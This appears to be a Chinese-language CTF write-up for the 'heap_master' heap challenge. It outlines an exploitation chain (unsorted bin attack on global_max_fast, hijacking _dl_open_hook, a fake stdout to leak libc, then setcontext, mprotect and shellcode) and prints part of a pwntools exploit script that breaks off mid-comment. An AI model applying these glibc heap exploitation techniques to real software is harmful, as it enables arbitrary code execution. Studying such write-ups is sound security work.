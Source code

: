```python
[*] '/home/n132/Desktop/heap_master/heap_master'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
题目很有意思主要有三个功能`edit`,`add`,`free`
* `add`中可以`malloc`任意`size`但是不反回获得的`chunk`
* `eidit`可以对题目中`mmap`的区域中的任意地址做任意长度的写.
* `free`可以对题目中`mmap`的区域中的任意地址做`free`操作
可以说是在`mmap`内非常自由了
但是题目的难点是我们无法自由地做在`mmap`区域外的写只能靠`ptmalloc`的机制往外面填一些东西.

心路历程:
* 无法自由地做在`mmap`区域外的写===> 我们可能难以任意控制hook
* 所以应该是利用`IO_file`的`vtable` 攻击完成攻击
* 选择了改写`_dl_open_hook`的方法去`passby check`
* 于是想到了控制`global_max_fast`
* 控制`stdout`......
# 思路
* unsorted bin atk to set `global_max_fast`
* free(0xm) to cover `_dl_open_hook`  
* free(0xn) to cover stdout after finising setting the fake chunk
* IO_leak to get `libc_base`
* reset `_dl_open_hook`(ret,setcontext,....)
* call printerr to trigger our exploit :setcontext->call mprotect->shellcode

# FAKE_EXP
先放上一个因为前面所说的env问题失败的exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter(">> ",str(c))
def add(size):
	cmd(1)
	p.sendlineafter("size: ",str(size))
def edit(off,c):
	cmd(2)
	p.sendlineafter("set: ",str(off))
	p.sendlineafter("size: ",str(len(c)))
	p.sendafter("content: ",c)
def free(off):
	cmd(3)
	p.sendlineafter("set: ",str(off))
context.log_level='debug'
#p=process('./heap_master',env={'LD_PRELOAD':"/glibc/x64/2.25/lib/libc-2.25.so"})
p=process("./heap_master",env={'LD_PRELOAD':"./libc.so.6"})
#libc=ELF("/glibc/x64/2.25/lib/libc-2.25.so")
libc=ELF("./libc.so.6")

##FAKE STDOUT 's off:0x620
for x in range(14):
	edit(0x610+x*0x10,p64(0)+p64(0x301))
edit(0x900,p64(0x21)*0x30)
for x in range(14):
	free(0x620+0x10*(13-x))
	add(0x2f8)
# so lets fill the fake chunk like... ooh , our fake_Stdout start's off:0x1000
'''
0x7ffff7dd5600 <_IO_2_1_stdout_>:	0x00000000fbad2887	0x00007ffff7dd5683
```